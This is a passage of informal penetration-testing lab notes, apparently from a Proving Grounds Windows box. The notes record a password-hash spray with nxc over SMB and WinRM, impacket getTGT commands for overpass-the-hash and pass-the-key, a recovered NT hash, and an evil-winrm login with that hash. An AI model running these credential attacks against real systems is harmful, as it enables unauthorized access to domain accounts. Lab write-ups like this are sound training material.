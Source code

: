 ```
nxc smb 192.168.236.175 -u clean-users.txt -H clean-hashes.txt
```

![[PG/Windows/attachments/Pasted image 20250706114915.png]]

No WinRM for this user 

![[PG/Windows/attachments/Pasted image 20250706115101.png]]

Researching what ntds.jfm is ... it apparently logs transactions for the ntds.dit file and records changes. 


# with an NT hash (overpass-the-hash)  
```
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET  
```

```
impacket-getTGT -hashes 'aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f' resourced.local/Administrator@192.168.236.175
```
# with an AES (128 or 256 bits) key (pass-the-key)  
```
getTGT.py -aesKey 'KerberosKey' $DOMAIN/$USER@$TARGET
```


Oh sheiittt. WAIT The hash spray worked for winrm!!

```
nxc winrm 192.168.236.175 -u clean-users.txt -H clean-hashes.txt
```

![[PG/Windows/attachments/Pasted image 20250706123828.png]]

```
resourced.local\L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808
```

# Evil-WinRM

```
evil-winrm -i 192.168.236.175 -H 19a3a7550ce8c505c2d46b5e39d6f808 -u L.Livingstone
```

PG box is taking a shit. Need to revert. 

![[PG/Windows/attachments/Pasted image 20250706124856.png]]
- yey

# Initial Access as L.Livingstone

